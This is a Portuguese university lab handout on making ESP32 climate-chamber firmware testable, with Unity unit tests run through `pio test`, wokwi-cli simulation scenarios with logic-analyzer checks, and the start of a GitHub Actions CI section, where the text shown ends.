

## Checklist — testes, simulação e CI/CD do firmware {/* #checklist */}

- [ ] Lógica da câmara separada em `lib/camara_logica` (sem Arduino) e o firmware compilando em `esp32dev` e `ci` (T1)
- [ ] `pio test -e native`: pelo menos 15 testes Unity da lógica, todos passando, com relatório JUnit (T2)
- [ ] `wokwi-cli`: `lint` do diagrama limpo e os testes Unity rodando no ESP32 simulado (T3)
- [ ] Cenário de integração no `wokwi-cli` (modos pot e auto) e PWM medido no VCD do analisador lógico (T4)
- [ ] Workflow do GitHub Actions com testes, firmware e simulação, badge no `README.md` (T5)
- [ ] Notificações no ntfy (sucesso, falha e release) e release com o `firmware.bin` ao criar a tag `v1.0.0` (T6)
- [ ] Previsões P1–P4 respondidas no `README.md`
- [ ] Nenhum `push --force`; cada tarefa num commit `Tn:`

:::info[Pontuação]
**T1…T6 = 100 pts** (esta aula não tem desafios): T1 10 · T2 20 · T3 15 · T4 20 · T5 15 ·
T6 20. O autograder normaliza para 0–10. Vale o commit `Tn:` mais recente de cada tarefa.
:::

<LabSetup />

### Configuração do ambiente de desenvolvimento {/* #setup */}

<DevTools />

---

Até o Lab 09, um firmware "funcionava" quando **alguém** o rodava no Wokwi, girava o
potenciômetro, mexia no slider do DHT22 e conferia o serial. Cada mudança no código pedia o
mesmo ritual, e ninguém garantia que uma correção hoje não quebrasse o modo `auto` de ontem.

Nesta aula, o firmware da câmara do Lab 07 passa a ser **verificado por máquina**, a cada
`push`:

1. a **lógica** (setpoint, banda morta, PWM, histerese, comandos, JSON) sai do `main.cpp` para
   uma biblioteca **sem Arduino** e ganha **testes unitários** que rodam no PC em 1 s
   (`pio test`);
2. o **Wokwi** vira uma bancada automática: o `wokwi-cli` roda o firmware sem interface,
   mexe nos componentes por um **cenário** YAML e grava o **analisador lógico** em arquivo;
3. o **GitHub Actions** junta tudo num **pipeline** e, numa tag `v*`, publica o
   `firmware.bin` como **release**;
4. o **ntfy** avisa no celular quando o pipeline fica verde, vermelho ou publica uma versão.



## Objetivos

- Separar **decisão** de **periférico** para tornar o firmware testável sem hardware.
- Escrever **testes unitários** com o Unity e rodá-los com o `pio test`, no PC e no ESP32.
- Usar o **`wokwi-cli`**: `lint` do diagrama, `--expect-text`/`--fail-text`, **cenários**
  (`set-control`, `write-serial`, `wait-serial`, `expect-pin`) e **VCD**.
- Montar um **pipeline de CI/CD** no GitHub Actions: jobs, dependências, cache, artefatos,
  secrets e release.
- Notificar o resultado com o **ntfy**, sem expor tokens nem abrir brecha para injeção de
  comandos.

## Material

- VS Code + **PlatformIO** (o `pio` do terminal do PlatformIO) + extensão **Wokwi**.
- **`wokwi-cli` 0.28.1** e um **token do Wokwi CI** ([wokwi.com/dashboard/ci](https://wokwi.com/dashboard/ci)). Cada
  simulação gasta minutos da cota do plano (confira no painel): não deixe o CI rodando em loop.
- Uma conta no **GitHub**, com o repositório do grupo.
- **ntfy**: o app no celular (Android/iOS) ou o navegador. Use o servidor do LAB IoT, com o
  tópico e o token do grupo, ou o `ntfy.sh` público, com um tópico difícil de adivinhar.

:::info[O que roda onde]
| Teste | Onde roda | Precisa de | Tempo |
| --------------------------- | ----------------------- | --------------------------- | ------- |
| `pio test -e native` | PC / runner do GitHub | só o `gcc` | ~1 s |
| `wokwi-cli lint` | PC / runner | nada (nem token) | ~1 s |
| Unity no ESP32 simulado | servidores do Wokwi | token do Wokwi | ~10 s |
| Cenário de integração + VCD | servidores do Wokwi | token do Wokwi | ~30 s |

Os testes no PC são a base: rápidos, sem cota e sem rede. A simulação pega o que o PC não vê:
o compilador Xtensa, o LEDC, o ADC e a temporização do firmware inteiro.
:::

## Clonar o repositório do grupo {/* #clonar */}

<LabTeamMembers labName="lab10" />

## Envie o link do repositório do seu grupo no Moodle: {/* #moodle-link */}

<LabSubmit labName="lab10" />

<details>
<summary><strong>Mapa de tarefas</strong> — 6 tarefas · 100 pts</summary>

- [T1 — Lógica testável em lib/camara_logica](#t1) · 10 pts
- [T2 — pio test no PC](#t2) · 20 pts
- [T3 — wokwi-cli: lint e testes no ESP32 simulado](#t3) · 15 pts
- [T4 — Cenário de integração e analisador lógico](#t4) · 20 pts
- [T5 — Pipeline no GitHub Actions](#t5) · 15 pts
- [T6 — ntfy e release (CD)](#t6) · 20 pts

</details>

O repositório nasce do `lab10-template`, com o firmware **final do Lab 07** em
`src/main.cpp`:

<FileTree
  details={true}
  defaultOpen={false}
  title="Estrutura de Arquivos do Projeto"
  root="lab10-grupo-X"
  files={[
    "platformio.ini u",
    "src/main.cpp u",
    "lib/camara_logica/camara_logica.h r",
    "lib/camara_logica/camara_logica.cpp c",
    "test/test_logica/test_logica.cpp c",
    "test/test_alvo/test_alvo.cpp c",
    "diagram.json u",
    "wokwi.toml r",
    "ci/cenario_integracao.yaml c",
    "ci/verificar_pwm.py r",
    "ci/resumo_junit.py r",
    "ci/notificar.sh r",
    ".github/workflows/ci.yml c",
    ".gitignore r",
    "evidencias/t1-build.txt c",
    "evidencias/t2-pio-test.txt c",
    "evidencias/t3-lint.txt c",
    "evidencias/t3-alvo-test_logica.txt c",
    "evidencias/t3-alvo-test_alvo.txt c",
    "evidencias/t4-cenario.txt c",
    "evidencias/t4-pwm.txt c",
    "evidencias/t5-actions.png c",
    "evidencias/t6-ntfy.png c",
    "evidencias/t6-release.png c",
    "README.md u",
  ]}
/>

:::info[Tópicos do Lab 10]
O firmware normal continua falando MQTT, agora em `elt85b/lab10/grupo-X/` (`dht`, `adc`,
`pwm`, `status`), com os comandos em `elt85b/lab10/grupo-X/cmd/<nome>`: `modo`, `aquecedor`,
`ventilador` e `intervalo`. O firmware de **CI** (`env:ci`) não usa rede: recebe os mesmos
comandos pela **serial**, uma linha `<nome> <valor>` (`modo auto`, `aq 50`, `intervalo 2`).
:::

---

## Parte 1 — Lógica testável {/* #parte-1 */}

### 1.1 Decisão × periférico

No `main.cpp` do Lab 07, a regra da histerese estava misturada com `analogRead`, `ledcWrite` e
`mqtt.publish`. Para testar a regra, era preciso um ESP32, um DHT22 e um broker. A saída é
separar:

- **lógica**: funções puras, que recebem números e devolvem números ou texto. Não sabem o que é
  um pino. Ficam em `lib/camara_logica` e compilam em qualquer computador;
- **periférico**: lê o ADC e o DHT22, chama a lógica e escreve no LEDC e no MQTT. Fica no
  `main.cpp` e só existe no ESP32.

O **contrato** já está no repositório. Você escreve o `.cpp`:

<FileTree
  root="lab10-grupo-X"
  files={["lib/camara_logica/camara_logica.h r"]}
/>

```cpp title="lib/camara_logica/camara_logica.h (trecho)"
namespace camara {
constexpr float SP_MIN = 20.0f, SP_MAX = 55.0f;   // °C
constexpr int ADC_MAX = 4095;                      // 12 bits
constexpr float HISTERESE = 0.5f;                  // ±0,5 °C
enum Modo { MODO_POT = 0, MODO_REMOTO = 1, MODO_AUTO = 2 };

float adcParaSetpoint(int raw);                    // 20..55 °C em passos de 0,5 (satura)
bool mudouAlemDaBanda(int raw, int ultimoAceito, int banda);
uint32_t dutyDe(float pct);                        // 0..100 % -> 0..255 (satura)

struct Saida { float aq; float ve; const char *estado; };
Saida decidir(Modo modo, int adcRaw, float t, float sp, float aqRemoto, float veRemoto,
              bool &aquecendo);                    // 'aquecendo' = memória da histerese
int interpretarModo(const char *txt);              // "pot"|"remoto"|"auto" -> 0..2; senão -1
bool interpretarPercentual(const char *txt, float &pct);   // "0".."100"
int formatarPwm(char *buf, size_t tam, Modo modo, const Saida &s, float sp, float t);
}
```

Leve para `camara_logica.cpp` o que o Lab 07 já fazia, **sem** `#include <Arduino.h>`: use
`<math.h>` (`roundf`, `lroundf`, `isnan`), `<stdio.h>` (`snprintf`), `<stdlib.h>` (`strtof`) e
`<ctype.h>` (`tolower`). `decidir()` é o antigo `controlar()` sem os `ledcWrite`.

### 1.2 O `main.cpp` passa a delegar

```cpp title="src/main.cpp (trechos)"
#include "camara_logica.h"
using namespace camara;

void lerAdc() {
  // ... média de 16 leituras, como no Lab 07 ...
  setpoint = adcParaSetpoint(adcRaw);
}

void controlar() {
  Saida s = decidir(modo, adcRaw, ultimaT, setpoint, aqRemoto, veRemoto, aquecendo);
  if (s.aq == atual.aq && s.ve == atual.ve && strcmp(s.estado, atual.estado) == 0) return;
  atual = s;
  pwmEscrever(AQ_PIN, AQ_CANAL, dutyDe(atual.aq));
  pwmEscrever(VE_PIN, VE_CANAL, dutyDe(atual.ve));
  publicarPwm();                         // formatarPwm(...) + publicar + Serial "[PWM] ..."
  telaSuja = true;
}
```

### 1.3 Firmware de CI: sem rede, comandos pela serial

Um teste automático não pode depender do Wi-Fi do Wokwi nem do `broker.hivemq.com`: se o
broker cair, o CI fica vermelho sem o código ter mudado. Com `-D SEM_REDE`, o firmware pula o
Wi-Fi e o MQTT e lê os comandos pela serial:

```cpp title="src/main.cpp (trechos)"
#ifndef SEM_REDE
#include <WiFi.h>
#include <PubSubClient.h>
#endif

// um só lugar para os comandos: chamado pelo callback do MQTT E pela serial
void executarComando(const char *nome, const char *valor) {
  if (strcmp(nome, "modo") == 0) {
    int novo = interpretarModo(valor);
    if (novo < 0) { Serial.println("[CMD] modo invalido (use pot, remoto ou auto)"); return; }
    modo = (Modo)novo; aquecendo = false; controlar();
  } else if (strcmp(nome, "aquecedor") == 0 || strcmp(nome, "aq") == 0 /* ... */) {
    // interpretarPercentual(valor, v) ...
  } // ... "intervalo"
}

void lerSerial() {                       // junta caracteres até '\n' e separa "<nome> <valor>"
  // ... strchr(linha, ' ') -> executarComando(linha, esp + 1)
}

void setup() {
  // ... ADC, LEDC, DHT22, OLED como no Lab 07 ...
#ifndef SEM_REDE
  conectarWiFi(); mqtt.setServer(MQTT_HOST, MQTT_PORTA); /* ... */ conectarMQTT();
#endif
  Serial.println("[BOOT] pronto");      // o cenário do wokwi-cli espera por esta linha
}
```

E o `platformio.ini` ganha três ambientes:

<FileTree root="lab10-grupo-X" files={["platformio.ini u"]} />

```ini title="platformio.ini"
[platformio]
default_envs = esp32dev

[env]
test_framework = unity

[esp32]
platform = espressif32@6.9.0             ; versão fixa: o CI precisa ser reprodutível
board = esp32dev
framework = arduino
monitor_speed = 115200
lib_deps =
    adafruit/DHT sensor library@1.4.6
    adafruit/Adafruit Unified Sensor@1.1.14
    knolleary/PubSubClient@2.8
    adafruit/Adafruit SSD1306@2.5.13
    adafruit/Adafruit GFX Library@1.11.11

[env:esp32dev]
extends = esp32

[env:ci]
extends = esp32
build_flags = -D SEM_REDE                ; não conecta ao Wi-Fi nem ao broker
test_ignore = *                          ; este ambiente é só para o cenário do wokwi-cli

[env:native]
platform = native
build_flags = -std=gnu++17
test_ignore = test_alvo                  ; testes que precisam de periférico do ESP32
lib_compat_mode = off
```

:::warning[Versões fixas]
Num pipeline, `^1.4.6` ("qualquer 1.x a partir de 1.4.6") faz o **mesmo commit** compilar com
bibliotecas diferentes em dias diferentes. Fixe a plataforma e as bibliotecas, e atualize de
propósito, num commit próprio.
:::

```powershell title="Terminal do PlatformIO"
pio run -e esp32dev -e ci | Out-File -Encoding utf8 evidencias/t1-build.txt
```

```text title="evidencias/t1-build.txt (final)"
Environment    Status    Duration
-------------  --------  ------------
esp32dev       SUCCESS   00:00:41.120
ci             SUCCESS   00:00:23.870
```

O firmware de CI fica bem menor (sem a pilha Wi-Fi e o MQTT), e por isso também simula mais
rápido. Compare o `RAM:`/`Flash:` dos dois no log.

<FileTree
  root="lab10-grupo-X"
  files={[
    "lib/camara_logica/camara_logica.cpp c",
    "src/main.cpp u",
    "platformio.ini u",
    "evidencias/t1-build.txt c",
  ]}
/>

<CommitPoint
  id="t1"
  task="Logica testavel em lib/camara_logica"
  pontos={10}
  files="lib/camara_logica/camara_logica.cpp src/main.cpp platformio.ini evidencias/t1-build.txt"
/>

---

## Parte 2 — `pio test` no PC {/* #parte-2 */}

### 2.1 Unity em 30 segundos

O **Unity** é um framework de testes em C. Um teste é uma função `void` com asserções;
`RUN_TEST` a executa e conta; `UNITY_END()` devolve o número de falhas.

| Asserção                                    | Passa quando                      |
| ------------------------------------------- | --------------------------------- |
| `TEST_ASSERT_EQUAL_FLOAT(esperado, obtido)` | iguais (com tolerância de float)  |
| `TEST_ASSERT_EQUAL_UINT32` / `_INT`         | inteiros iguais                   |
| `TEST_ASSERT_EQUAL_STRING`                  | strings iguais                    |
| `TEST_ASSERT_TRUE` / `_FALSE`               | condição verdadeira / falsa       |
| `TEST_ASSERT_INT_WITHIN(delta, esp, obt)`   | \|esp − obt\| ≤ delta             |
| `..._MESSAGE(..., "texto")`                 | idem, com mensagem extra na falha |

O `pio test` procura pastas `test/test_*`, compila **cada uma** como um programa separado,
junto com as bibliotecas de `lib/`, e lê o resultado. No `env:native`, o "programa" roda no
seu PC.

### 2.2 Os testes

<FileTree root="lab10-grupo-X" files={["test/test_logica/test_logica.cpp c"]} />

```cpp title="test/test_logica/test_logica.cpp (estrutura e alguns testes)"
#include <math.h>
#include <string.h>
#include <unity.h>
#include "camara_logica.h"
using namespace camara;

void setUp() {}
void tearDown() {}

void test_setpoint_extremos_e_meio() {
    TEST_ASSERT_EQUAL_FLOAT(20.0f, adcParaSetpoint(0));
    TEST_ASSERT_EQUAL_FLOAT(55.0f, adcParaSetpoint(4095));
    TEST_ASSERT_EQUAL_FLOAT(37.5f, adcParaSetpoint(2048));
}

void test_setpoint_passos_de_meio_grau_e_monotonico() {
    float anterior = adcParaSetpoint(0);
    for (int raw = 0; raw <= 4095; raw++) {
        float sp = adcParaSetpoint(raw);
        TEST_ASSERT_EQUAL_FLOAT_MESSAGE(roundf(sp * 2) / 2, sp, "setpoint fora do passo de 0,5");
        TEST_ASSERT_TRUE_MESSAGE(sp >= anterior, "setpoint diminuiu com o ADC subindo");
        anterior = sp;
    }
}

void test_auto_sequencia_do_lab07() {
    // SP 37,5 °C; temperaturas do experimento da T6 do Lab 07 (+ 37,2 °C)
    struct { float t; float aq; float ve; const char *estado; } passos[] = {
        {24.5f, 100, 0, "AQUECENDO"},
        {37.4f, 100, 0, "AQUECENDO"},    // dentro da histerese: continua aquecendo
        {38.2f, 0, 0, "ESTAVEL"},
        {41.0f, 0, 63, "RESFRIANDO"},    // (41 - 38,5) x 25 = 62,5 -> 63 %
        {37.8f, 0, 0, "ESTAVEL"},        // acima de SP - 0,5: não religa
        {37.2f, 0, 0, "ESTAVEL"},        // abaixo do SP, mas dentro da histerese (sem ela, religaria)
        {36.8f, 100, 0, "AQUECENDO"},
    };
    bool aquecendo = false;
    for (auto &p : passos) {
        Saida s = decidir(MODO_AUTO, 0, p.t, 37.5f, 0, 0, aquecendo);
        TEST_ASSERT_EQUAL_FLOAT(p.aq, s.aq);
        TEST_ASSERT_EQUAL_FLOAT(p.ve, s.ve);
        TEST_ASSERT_EQUAL_STRING(p.estado, s.estado);
    }
}

void test_json_pwm() {
    char buf[200];
    Saida s{100, 0, "AQUECENDO"};
    formatarPwm(buf, sizeof(buf), MODO_AUTO, s, 37.5f, 24.5f);
    TEST_ASSERT_EQUAL_STRING(
        "{\"modo\":\"auto\",\"estado\":\"AQUECENDO\",\"aq\":100,\"ve\":0,"
        "\"aq_duty\":255,\"ve_duty\":0,\"sp\":37.5,\"t\":24.5}",
        buf);
}

// ... os demais testes ...

int rodarTestes() {
    UNITY_BEGIN();
    RUN_TEST(test_setpoint_extremos_e_meio);
    RUN_TEST(test_setpoint_passos_de_meio_grau_e_monotonico);
    RUN_TEST(test_auto_sequencia_do_lab07);
    RUN_TEST(test_json_pwm);
    // ...
    return UNITY_END();
}

#ifdef ARDUINO                           // o mesmo arquivo roda no ESP32 (T3)
#include <Arduino.h>
void setup() { delay(1000); rodarTestes(); }
void loop() {}
#else
int main() { return rodarTestes(); }
#endif
```

**Requisito:** pelo menos **15 testes**, cobrindo:

| Função                  | O que testar                                                                       |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `adcParaSetpoint`       | extremos, meio, saturação abaixo de 0 e acima de 4095, passo de 0,5, monotonia     |
| `mudouAlemDaBanda`      | exatamente na banda (não muda), 1 acima, para baixo, primeira leitura              |
| `dutyDe`                | 0, 100, 50 (arredondamento), saturação                                             |
| `decidir`               | pot, remoto (com saturação), a sequência do Lab 07, `SEM DHT`, ventilador em 100 % |
| `interpretarModo`       | os 3 modos, maiúsculas, vazio, prefixo ("au"), palavra maior, `nullptr`            |
| `interpretarPercentual` | válidos, `"12.5\n"`, fora da faixa, lixo, `"50abc"`, vazio                         |
| `formatarPwm`           | JSON exato, `t` = NAN vira `null`, buffer pequeno não estoura                      |

```powershell title="Terminal do PlatformIO"
pio test -e native --junit-output-path relatorio-native.xml
pio test -e native | Out-File -Encoding utf8 evidencias/t2-pio-test.txt
```

```text title="evidencias/t2-pio-test.txt (final)"
test/test_logica/test_logica.cpp:187: test_json_buffer_pequeno_nao_estoura	[PASSED]
---------------- native:test_logica [PASSED] Took 0.59 seconds ----------------

=================================== SUMMARY ===================================
Environment    Test         Status    Duration
-------------  -----------  --------  ------------
native         test_logica  PASSED    00:00:00.590
================= 17 test cases: 17 succeeded in 00:00:00.590 =================
```

:::tip[Veja o teste falhar]
Um teste que nunca falhou pode não testar nada. Troque, de propósito,
`return roundf(sp * 2.0f) / 2.0f;` por `return roundf(sp);` em `adcParaSetpoint` e rode de
novo. Qual teste falha, com que mensagem? O `pio test` termina com código **1**, e é isso que
vai pintar o CI de vermelho na T5. Desfaça a mudança antes do commit.
:::

:::tip[Preveja antes de rodar]
**P1:** um colega escreveu `/ 4096.0f` em vez de `/ 4095` em `adcParaSetpoint`. Quais dos seus
testes falham? Escreva a previsão e **depois** rode. Se nenhum falhar, descubra por quê (para
quantos dos 4096 valores do ADC o resultado muda?) e escreva um teste que **pegue** esse erro.
:::

<FileTree
  root="lab10-grupo-X"
  files={["test/test_logica/test_logica.cpp c", "evidencias/t2-pio-test.txt c"]}
/>

<CommitPoint
  id="t2"
  task="pio test no PC"
  pontos={20}
  files="test/test_logica/test_logica.cpp evidencias/t2-pio-test.txt"
/>

---

## Parte 3 — `wokwi-cli`: lint e testes no ESP32 simulado {/* #parte-3 */}

### 3.1 Instalar e configurar o token

```powershell title="Terminal (raiz do repositório)"
curl.exe -L -o wokwi-cli.exe https://github.com/wokwi/wokwi-cli/releases/download/v0.28.1/wokwi-cli-win-x64.exe
.\wokwi-cli.exe --version                       # 0.28.1
$env:WOKWI_CLI_TOKEN = "cole-aqui-o-token"      # só nesta janela do terminal
```

No Linux e no macOS, baixe `wokwi-cli-linuxstatic-x64` ou `wokwi-cli-macos-arm64` e use
`export WOKWI_CLI_TOKEN=...`. O `.gitignore` já ignora o executável.

:::warning[O token é uma senha]
Nunca coloque o token num arquivo do repositório, nem no `ci.yml`. No GitHub, ele vai num
**Secret** (T5). Quem tem o token gasta a sua cota.
:::

### 3.2 Lint do diagrama (sem token)

```powershell title="Terminal"
.\wokwi-cli.exe lint --warnings-as-errors . | Out-File -Encoding utf8 evidencias/t3-lint.txt
```

O `diagram.json` do Lab 07 **não passa**: o `lint` acusa um atributo que o analisador lógico
não tem. Corrija o diagrama até sair só a nota `info` sobre a placa. Aproveite e mude o valor
inicial do potenciômetro para `0`: o teste de integração (T4) precisa começar de um estado
**conhecido**.

```json title="diagram.json (as duas peças alteradas)"
{ "type": "wokwi-potentiometer", "id": "pot1", "top": 160, "left": -150, "attrs": { "value": "0" } },
{ "type": "wokwi-logic-analyzer", "id": "logic1", "top": 300, "left": 300, "attrs": { "filename": "lab10-pwm" } }
```

(Mantenha `top` e `left` como estão no seu arquivo.)

### 3.3 Os testes Unity no ESP32 simulado

O mesmo `test_logica.cpp` também roda **no ESP32**, onde mudam o compilador (Xtensa), o
tamanho de `long` e a FPU. E uma segunda pasta testa o que só existe lá, o LEDC e o ADC:

<FileTree root="lab10-grupo-X" files={["test/test_alvo/test_alvo.cpp c"]} />

```cpp title="test/test_alvo/test_alvo.cpp (trecho)"
void test_ledc_aquecedor_5hz() {
    uint32_t f = pwmIniciar(AQ_PIN, 0, 5);
    TEST_ASSERT_UINT32_WITHIN(1, 5, f);               // o LEDC consegue gerar 5 Hz em 8 bits
    pwmEscrever(AQ_PIN, 0, dutyDe(50));
    TEST_ASSERT_EQUAL_UINT32(128, pwmLer(AQ_PIN, 0)); // ledcRead() devolve o duty escrito
}

void test_ledc_ventilador_25khz() {
    uint32_t f = pwmIniciar(VE_PIN, 1, 25000);
    TEST_ASSERT_UINT32_WITHIN(250, 25000, f);         // ±1 %
    pwmEscrever(VE_PIN, 1, dutyDe(63));
    TEST_ASSERT_EQUAL_UINT32(161, pwmLer(VE_PIN, 1));
}

void test_adc_do_potenciometro() {
    analogReadResolution(12);
    analogSetPinAttenuation(POT_PIN, ADC_11db);
    int raw = analogRead(POT_PIN);
    TEST_ASSERT_INT_WITHIN(2048, 2047, raw);          // 0..4095
    TEST_ASSERT_TRUE(adcParaSetpoint(raw) >= SP_MIN && adcParaSetpoint(raw) <= SP_MAX);
}
// pwmIniciar/pwmEscrever/pwmLer: os mesmos #if ESP_ARDUINO_VERSION_MAJOR >= 3 do Lab 07
// (no core 2.x, ledcSetup() devolve a frequência obtida; no 3.x, ledcReadFreq(pino))
```

O `pio test` **compila** o teste para o ESP32 e para (não há placa para gravar). O `wokwi-cli`
**roda** o `.elf` e decide pelo texto do serial:

```powershell title="Terminal"
foreach ($t in "test_logica", "test_alvo") {
  pio test -e esp32dev -f $t --without-uploading --without-testing
  .\wokwi-cli.exe --elf .pio/build/esp32dev/firmware.elf --timeout 30000 `
    --expect-text "Tests 0 Failures" --fail-text ":FAIL" `
    --serial-log-file "evidencias/t3-alvo-$t.txt" .
}
```

```text title="Saída esperada (test_alvo)"
Wokwi CLI v0.28.1 (7cf4ffaebfd8)
Connected to Wokwi Simulation API <versão>
Starting simulation...
test/test_alvo/test_alvo.cpp:82:test_ledc_aquecedor_5hz:PASS
test/test_alvo/test_alvo.cpp:83:test_ledc_ventilador_25khz:PASS
test/test_alvo/test_alvo.cpp:84:test_adc_do_potenciometro:PASS
test/test_alvo/test_alvo.cpp:85:test_float_no_xtensa_igual_ao_pc:PASS

-----------------------
4 Tests 0 Failures 0 Ignored

Expected text found: "Tests 0 Failures"
TEST PASSED.
```

- `--elf` troca o firmware do `wokwi.toml` (que aponta para o firmware normal) pelo programa
  de teste.
- `--expect-text` encerra com **sucesso** quando o texto aparece; `--fail-text` encerra com
  **erro** se o seu texto aparecer antes. O Unity escreve `:FAIL` em cada teste que falha.
- Se nada disso aparecer até o `--timeout`, o `wokwi-cli` sai com o código **42**.

:::tip[Preveja antes de rodar]
**P2:** `formatarPwm` faz `(unsigned long)dutyDe(...)` antes do `%lu`. No PC (x86-64), quantos
bytes tem um `long`? E no ESP32? E o `uint32_t`: é `unsigned int` ou `unsigned long` em cada
um? O que poderia dar errado se o cast não existisse, e por que um teste que passa no PC
**ainda assim** precisa rodar no ESP32?
:::

<FileTree
  root="lab10-grupo-X"
  files={[
    "test/test_alvo/test_alvo.cpp c",
    "diagram.json u",
    "evidencias/t3-lint.txt c",
    "evidencias/t3-alvo-test_logica.txt c",
    "evidencias/t3-alvo-test_alvo.txt c",
  ]}
/>

<CommitPoint
  id="t3"
  task="wokwi-cli: lint e testes no ESP32 simulado"
  pontos={15}
  files="test/test_alvo/test_alvo.cpp diagram.json evidencias/t3-lint.txt evidencias/t3-alvo-test_logica.txt evidencias/t3-alvo-test_alvo.txt"
/>

---

## Parte 4 — Cenário de integração e analisador lógico {/* #parte-4 */}

Os testes unitários verificam cada função. Falta verificar o **firmware inteiro**: `setup()`,
os `Ticker`, a banda morta do ADC, o DHT22, a serial e o LEDC funcionando juntos. É o que um
**cenário** faz: uma lista de passos que o `wokwi-cli` executa enquanto o firmware roda.

| Passo          | O que faz                            | Exemplo                                            |
| -------------- | ------------------------------------ | -------------------------------------------------- |
| `wait-serial`  | espera um trecho na saída serial     | `wait-serial: '[BOOT] pronto'`                     |
| `set-control`  | mexe num componente                  | `part-id: pot1`, `control: position`, `value: 0.5` |
| `write-serial` | digita na serial do ESP32            | `write-serial: "modo auto\n"`                      |
| `expect-pin`   | confere o nível de um pino **agora** | `part-id: esp`, `pin: '25'`, `value: 0`            |
| `delay`        | espera (com unidade!)                | `delay: 1500ms`                                    |

Cada passo tem **um** comando (e um `name` opcional). O potenciômetro aceita `position` de
0,0 a 1,0; o DHT22, `temperature` (°C).

<FileTree root="lab10-grupo-X" files={["ci/cenario_integracao.yaml c"]} />

```yaml title="ci/cenario_integracao.yaml"
name: Camara - modos pot e auto
version: 1
author: ELT85B

# O diagram.json começa com o potenciômetro em 0 e o DHT22 em 24,5 °C: estado conhecido.
steps:
  - name: Boot sem rede
    wait-serial: "[BOOT] pronto"

  # ---------------------------------------------------------- modo pot (dimmer)
  - name: Potenciômetro no meio
    set-control:
      part-id: pot1
      control: position
      value: 0.5
  - name: Os dois canais vão a 50 %
    wait-serial: '"modo":"pot","estado":"MANUAL","aq":50,"ve":50,"aq_duty":128,"ve_duty":128'
  - name: Deixa o PWM rodar (o verificar_pwm.py mede 5 Hz e 25 kHz a 50 % aqui)
    delay: 1500ms

  - name: Potenciômetro no zero
    set-control:
      part-id: pot1
      control: position
      value: 0
  - name: Tudo desligado
    wait-serial: '"aq":0,"ve":0,"aq_duty":0,"ve_duty":0'
  - name: Pino do aquecedor em nível baixo
    expect-pin:
      part-id: esp
      pin: "25"
      value: 0

  # ---------------------------------------------------------- modo auto (Lab 07, T6)
  - name: DHT22 a cada 2 s
    write-serial: "intervalo 2\n"
  - name: Setpoint 37,5 °C pelo potenciômetro
    set-control:
      part-id: pot1
      control: position
      value: 0.5
  - name: Liga o modo auto (o DHT22 começa em 24,5 °C, atributo do diagram.json)
    write-serial: "modo auto\n"
  - name: Aquece
    wait-serial: '"modo":"auto","estado":"AQUECENDO","aq":100,"ve":0'

  - name: Passa de SP + 0,5
    set-control:
      part-id: dht1
      control: temperature
      value: 38.2
  - name: Estável, aquecedor desligado
    wait-serial: '"estado":"ESTAVEL","aq":0,"ve":0'

  - name: Bem acima do setpoint
    set-control:
      part-id: dht1
      control: temperature
      value: 41
  - name: Ventilador proporcional (41 - 38,5) x 25 = 63 %
    wait-serial: '"estado":"RESFRIANDO","aq":0,"ve":63,"aq_duty":0,"ve_duty":161'

  - name: Comando inválido não derruba o firmware
    write-serial: "modo turbo\n"
  - name: Resposta de erro
    wait-serial: "modo invalido"
```

O `wait-serial` só olha o que chega **depois** do passo anterior. Por isso o potenciômetro
começa em 0: se começasse no meio, o `[PWM]` de 50 % sairia no `setup()`, **antes** do
`[BOOT] pronto`, e o passo "Os dois canais vão a 50 %" esperaria para sempre.

Com `--vcd-file`, o `wokwi-cli` grava o **analisador lógico** (D0 = GPIO25, D1 = GPIO26) num
arquivo VCD, o mesmo formato que o PulseView abre. O `ci/verificar_pwm.py` (pronto, só
biblioteca padrão) procura em cada canal um trecho com a frequência e o duty esperados:

```powershell title="Terminal"
pio run -e ci
.\wokwi-cli.exe --elf .pio/build/ci/firmware.elf --scenario ci/cenario_integracao.yaml `
  --timeout 90000 --vcd-file pwm.vcd --serial-log-file serial-cenario.txt . 2>&1 |
  Out-File -Encoding utf8 evidencias/t4-cenario.txt
py ci/verificar_pwm.py pwm.vcd --listar | Out-File -Encoding utf8 evidencias/t4-pwm.txt
```

```text title="evidencias/t4-cenario.txt (trecho)"
[Camara - modos pot e auto] Executing step: Os dois canais vão a 50 %
[ADC] {"raw":2048,"mv":1550,"sp":37.5}
[PWM] {"modo":"pot","estado":"MANUAL","aq":50,"ve":50,"aq_duty":128,"ve_duty":128,"sp":37.5,"t":null}
[Camara - modos pot e auto] Expected text matched: "..."
...
[PWM] {"modo":"auto","estado":"RESFRIANDO","aq":0,"ve":63,"aq_duty":0,"ve_duty":161,"sp":37.5,"t":41.0}
[Camara - modos pot e auto] Scenario completed successfully
```

```text title="evidencias/t4-pwm.txt (formato)"
pwm.vcd: sinais D0, D1
       D0/D0:      7 períodos        5.00 Hz  duty  50.0 %
ok     D0 (aquecedor GPIO25): 5.00 Hz, duty 50.0 % em 7 períodos
       D1/D1:  37500 períodos    25000.00 Hz  duty  50.0 %
ok     D1 (ventilador GPIO26): 25000.00 Hz, duty 50.0 % em 37500 períodos
```

:::tip[Preveja antes de rodar]
**P3:** por que o cenário confere o pino 25 com `expect-pin` só quando o aquecedor está em
**0 %**, e não em 100 %? (Dica: com 8 bits, qual é o duty máximo, 255/255 ou 255/256? Em quantos
microssegundos por período o pino fica em 0 a 5 Hz?) Um teste que passa 99 vezes e falha 1 é
chamado de **instável** (_flaky_). Por que ele é pior do que um teste que sempre falha?
:::

<FileTree
  root="lab10-grupo-X"
  files={[
    "ci/cenario_integracao.yaml c",
    "evidencias/t4-cenario.txt c",
    "evidencias/t4-pwm.txt c",
  ]}
/>

<CommitPoint
  id="t4"
  task="Cenario de integracao e analisador logico"
  pontos={20}
  files="ci/cenario_integracao.yaml evidencias/t4-cenario.txt evidencias/t4-pwm.txt"
/>

---

## Parte 5 — Pipeline no GitHub Actions {/* #parte-5 */}

### 5.1 Conceitos

- **Workflow**: um arquivo YAML em `.github/workflows/`. Diz **quando** roda (`on:`) e **o
  quê** (`jobs:`).
- **Job**: roda numa máquina virtual nova (`runs-on: ubuntu-latest`). Jobs rodam em
  **paralelo**, a não ser que um dependa do outro (`needs:`).
